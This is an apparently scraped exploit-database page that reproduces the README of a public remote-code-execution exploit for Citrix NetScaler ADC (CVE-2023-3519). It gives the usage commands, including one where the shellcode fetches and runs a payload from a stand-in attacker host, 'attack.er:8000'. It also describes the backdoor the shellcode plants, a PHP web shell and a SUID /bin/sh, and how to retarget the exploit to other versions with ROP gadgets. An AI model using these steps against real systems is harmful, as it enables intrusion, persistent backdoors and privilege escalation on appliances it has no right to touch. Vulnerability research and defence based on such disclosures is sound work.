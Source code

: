 ```yaml
---
title: Exploit for Code Injection in Citrix Netscaler Application Delivery Controller exploit
url: https://sploitus.com/exploit?id=FC0EFD99-1168-58C5-A7F8-7756DCB3FC1D&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-06
fetch_date: 2025-10-04T11:58:55.155416
---
```


# Exploit for Code Injection in Citrix Netscaler Application Delivery Controller exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Code Injection in Citrix Netscaler\_Application\_Delivery\_Controller CVE-2023-3519

2023-08-05 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=FC0EFD99-1168-58C5-A7F8-7756DCB3FC1D
# Citrix ADC RCE CVE-2023-3519
This exploit uses addresses and shellcode for Citrix VPX 13.1-48.47. For the full writeup, click [here](https://bishopfox.com/blog/analysis-exploitation-cve-2023-3519).

### Usage
NASM is required to build the shellcode.
```
$ sudo apt install nasm
```

The included shellcode will download and run a shell script from a remote http(s) server. The script takes 3 arguments: the target host, the target port, and the URL of a shell script payload. An example payload which runs `id` and `uname -a` before cleaning up after itself is included in this repo.

```
$ echo 'id' > a
$ python3 -m http.server &
$ python3 cve-2023-3519.py victim.com 443 attack.er:8000/a
```
The URL must be short enough to fit in the shellcode buffer, and you will get a warning if it is too long.

### Shellcode artifacts
The shellcode will create a PHP backdoor in `/var/netscaler/logon/a.php` and set the SUID bit on `/bin/sh`. The included `sh` payload shows an example of automatically cleaning up these artifacts. Also note that the shellcode does not close its file descriptors, so excessive repeated exploitation may result in resource exhaustion.

### Adapting to other versions
For FreeBSD-based Citrix targets, you should only need to find 3 values: the offset of the saved return pointer, a `jmp rsp` ROP gadget (or something equivalent, such as `push rsp; ret;`), and the address to jump to in order to avoid a crash. These parameters are all hardcoded near the top of `cve-2023-3519.py`.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)